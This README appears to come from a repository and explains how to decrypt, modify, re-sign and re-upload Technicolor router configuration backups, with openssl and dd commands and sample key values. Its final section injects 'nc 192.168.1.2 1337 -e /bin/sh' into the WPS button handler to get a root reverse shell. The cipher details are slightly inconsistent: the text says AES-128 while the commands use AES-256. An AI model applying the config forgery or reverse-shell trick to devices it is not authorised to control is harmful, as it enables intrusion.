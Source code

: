 # Technicolor config decrypt

This repo contains info how to decrypt `config.bin`, edit and encrypt back

**YOU MUST HAVE HAD ROOT AT LEAST ONCE BEFORE YOU CAN DECRYPT**

This method is useful if you need:

1. See your saved settings
2. Recover VoIP password to use with different device
3. Recover root access after ISP pushed an update and kicked you out

## File format

HEADER + IV + DATA + SIGNATURE

## Method

* HEADER: ascii '\n' separated, '\n\n' at the end
* IV: 16 random bytes, generated for each export
* DATA: AES 128 CBC encrypted using hardware key
* SIGNATURE: 20 bytes, HMAC-SHA1 of `HEADER + IV + DATA`

## Key

The key is located in `/proc/rip/0108`. First 32 bytes used for AES encryption, entire 64 bytes are used for HMAC.
Also, the key may be exctracted from `mtd5` using this method: [https://github.com/pedro-n-rocha/secr](https://github.com/pedro-n-rocha/secr)

## Decryption

Decryption using command line: extract aes data and decrypt using hex values

```
dd if=config.bin bs=1 count=246 > header.txt
dd if=config.bin bs=1 skip=246 count=16 > iv.bin
dd if=config.bin bs=1 skip=262 count=FILE-SIZE-MINUS-20-MINUS-262 > config.aes
openssl enc -aes-256-cbc -nosalt -d -in config.aes \
-K '72ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b6876783' -iv 'c6b1c0aac15c13e5ab18a8aabafc14e0'
```
In this example the header size was 246. Take the file size, substract 246+16+20

The hex value of `-K` come from your router, `-iv` comes from config.bin

## Encryption

Encrypt config.txt:
```
openssl enc -aes-256-cbc -nosalt -in config.txt \
-K '72ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b6876783' -iv 'c6b1c0aac15c13e5ab18a8aabafc14e0' > config2.aes
```
Concatenate HEADER, IV and DATA:
```
cat header.txt iv.bin config2.aes > config2.data
```
Calculate HMAC-SHA1 digest:
```
dgst -sha1 -mac hmac -macopt hexkey:72ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b687678372ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b6876783 -binary < config2.data > signature.bin
```
Assemble config file:
```
cat config2.data signature.bin > config2.bin
```
Note, that for aes encryption you should use the first 32 bytes of the key, but for signature - all the 64.

## Header example
```
PREAMBLE=THENC
BACKUPVERSION=1.00
BOARDMNEMONIC=GANT-1
PRODUCTNAME=MediaAccess TG
SERIALNUMBER=CPxxxxxx
MAC=xx:xx:xx:xx:xx:xx
BUILDVERSION=17.1.7992-0001012-20180515151413-4f071fd23e90c774b6827546188a38d6c91cff38
CIPHERKEY=GW
SIGNATUREKEY=GW

```

## Export example
```
00000000: 5052 4541 4d42 4c45 3d54 4845 4e43 0a42  PREAMBLE=THENC.B
00000010: 4143 4b55 5056 4552 5349 4f4e 3d31 2e30  ACKUPVERSION=1.0
00000020: 300a 424f 4152 444d 4e45 4d4f 4e49 433d  0.BOARDMNEMONIC=
00000030: 4741 4e54 2d31 0a50 524f 4455 4354 4e41  GANT-1.PRODUCTNA
00000040: 4d45 3d4d 6564 6961 4163 6365 7373 2054  ME=MediaAccess T
00000050: 470a 5345 5249 414c 4e55 4d42 4552 3d43  G.SERIALNUMBER=C
00000060: xxxx xxxx xxxx xxxx xxxx 0a4d 4143 3dxx  xxxxxxxxxx.MAC=x
00000070: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
00000080: 0a42 5549 4c44 5645 5253 494f 4e3d 3137  .BUILDVERSION=17
00000090: 2e31 2e37 3939 322d 3030 3031 3031 322d  .1.7992-0001012-
000000a0: 3230 3138 3035 3135 3135 3134 3133 2d34  20180515151413-4
000000b0: 6630 3731 6664 3233 6539 3063 3737 3462  f071fd23e90c774b
000000c0: 3638 3237 3534 3631 3838 6133 3864 3663  6827546188a38d6c
000000d0: 3931 6366 6633 380a 4349 5048 4552 4b45  91cff38.CIPHERKE
000000e0: 593d 4757 0a53 4947 4e41 5455 5245 4b45  Y=GW.SIGNATUREKE
000000f0: 593d 4757 0a0a c6b1 c0aa c15c 13e5 ab18  Y=GW.......\....
00000100: a8aa bafc 14e0 b694 f4bf ff6c 5f3a 1db5  ...........l_:..
00000110: 3d35 9222 3433 01c0 f6a6 e90e 6599 e52e  =5."43......e...
00000120: 79fe 23f8 da03 aaad cbeb c7ac ba07 5505  y.#...........U.
00000130: 7702 12c3 5b7c 66ec 7c8f 1e30 1250 9d1d  w...[|f.|..0.P..
..
..
```
Here, IV is `c6b1c0aac15c13e5ab18a8aabafc14e0`, next goes encrypted data, 20 bytes at the end will be the signature

## Getting back root access

If your ISP updated the firmware and you are no longer able to exploit any public vulnerability to get root back, try to cahnge wps button handler, like:
```
button.wps.handler='nc 192.168.1.2 1337 -e /bin/sh || true'
```
Upload the config and pre WPS button - you should receive a remote shell with root access

## Python PoC

to be uploaded
